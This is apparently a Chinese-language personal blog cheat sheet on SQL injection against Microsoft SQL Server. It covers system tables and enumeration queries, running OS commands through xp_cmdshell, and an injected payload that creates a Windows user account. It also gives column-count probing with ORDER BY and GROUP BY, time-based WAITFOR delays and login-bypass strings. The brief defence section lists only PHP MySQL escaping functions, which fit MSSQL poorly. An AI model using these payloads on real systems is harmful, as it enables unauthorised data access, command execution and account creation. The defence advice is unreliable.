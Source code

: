 ```yaml
---
title: MSSQLI备忘录
date: 2018-04-14 20:43:04
categories: Web
tags:
description:
---
```


记录自己的一些小笔记
<!-- more -->

# MSSQL知识储备

## 系统数据库
 - `master`
 Master 数据库记录SQLServer 系统的所有`系统级别信息（表sysobjects）`,`登录账号（表sysusers）`和`系统配置`,`其他的数据库（表sysdatabases）`，`数据库文件的位置`。Master 数据库记录SQLServer的初始化信息，他始终指向一个可用的最新 Master 数据库备份。
 - `model`
 model数据库是`建立所有用户数据库时的模板`。当你建立一个新数据库时，SQL Server会把model数据库中的所有对象建立一份拷贝并移到新数据库中。在模板对象被拷贝到新的用户数据库中之后，该数据库的所有多余空间都将被空页填满。
 - `tempdb`
 	tempdb数据库是一个非常特殊的数据库，供所有来访问你的SQL Server的用户使用。这个库用来`保存所有的临时表、存储过程和其他SQL Server建立的临时用的东西`。例如，排序时要用到tempdb数据库。数据被放进tempdb数据库，排完序后再把结果返回给用户。每次SQL Server重新启动，它都会清空tempdb数据库并重建。永远不要在tempdb数据库建立需要永久保存的表。
 - `msdb`
 Msdb 数据库供 SQLServer `代理程序调度警报和作业以及记录操作员时使用`。比如，我们备份了一个数据库，会在表backupfile中插入一条记录，以记录相关的备份信息。
 - 实例数据库
  - `Northwind`
  - `pubs`

## 系统表
![systable](systable.png)
比较重要的几点
 - 主数据库
   - `sysdatabases` `存放所有数据库信息`
     - `name` 库名称
     - `dbid` 库ID
 - 每个数据库
   - `sysobjects` `在数据库内创建的每个对象（约束、默认、日志、规则、存储过程）`
     - `name` 对象名
     - `id`   对象ID
     - `uid` 对象的用户ID
     - `xtype` 对象类型
       - U(用户表), S(系统表),V(视图),P(存储过程)
   - `syscolumns` `该库的所有字段信息`
     - `name` 字段名称
     - `id`   表ID
     - `colid` 字段ID
   - `sysusers` `用户信息`

[在具体可以看这](https://www.path8.net/tn/archives/3298)

## 常用命令

### 注释符
 - `--`
 - `/*`

### LIKE通配符
 - `-` 匹配一个字符
 - `%` 匹配一个或多个字符

### 字符串连接符
 - `SELECT 'a'+'d'+'mi'+'n';`

### 版本
 - `@@VERSION`

### 当前数据库
 - `DB_NAME()`

### 联合查询相关
查看其他数据库   master.dbo.sysdatabases(库名.所有者.表名)

 - `SELECT name FROM master..sysdatabases`  查看所有库
 - `SELECT name,id FROM sysobjects WHERE xtype='U'`   查询某库的所有用户表
 - `SELECT name FROM syscolumns WHERE id=表id`   查询某表所有列 --表ID就是sysobjects的id字段

 - `SELECT col_name(object_id('users'),1)` 也可以拿到列
 - `SELECT name FROM syscolumns WHERE id=object_id('users')`  也可以拿到列

**也可以使用information_schema数据库**
![information_schema](information_schema.png)



### 执行shell命令
 - `select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell'` 查询是否能使用
 - `exec master..xp_cmdshell 'whoami'`   2005 2008 默认关闭
 - `select * from openrowset('sqloledb','trusted_connection=yes','set fmtonly off exec master..xp_cmdshell ''whoami''')`
 - `SELECT * FROM users WHERE username ='' exec master.dbo.xp_cmdshell 'net user admins /add'--'`

### 条件语句
 - `IF 1=1 SELECT 'true' ELSE SELECT 'false'`  IF是不能再SELECT语句中使用的
 - `SELECT CASE WHEN 1=1 THEN true ELSE false END`

### 时间
 - `IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0'`




# 利用SQL

## 联合注入

### 测试列数

#### GROUP BY
```
SELECT username, password FROM users WHERE id = '1';
1' ORDER BY 1--	True
1' ORDER BY 2--	True
1' ORDER BY 3--	False - 查询使用了2列
-1' UNION SELECT 1,2--	True
```

#### GROUP BY / HAVING
```
SELECT username, password FROM users WHERE id = '1';

1' HAVING 1=1										-- 错误
1' GROUP BY username HAVING 1=1--					-- 错误
1' GROUP BY username, password HAVING 1=1--			-- 正确
Group By可以用来测试列名
```




## MSSQL万能密码
 - `' or '1='1`
 - `' or '1'='1'--`





# 防御
## 过滤函数
 - `addslashes()`
 - `mysql_real_escape_string()`
 - `mysql_escape_string()`
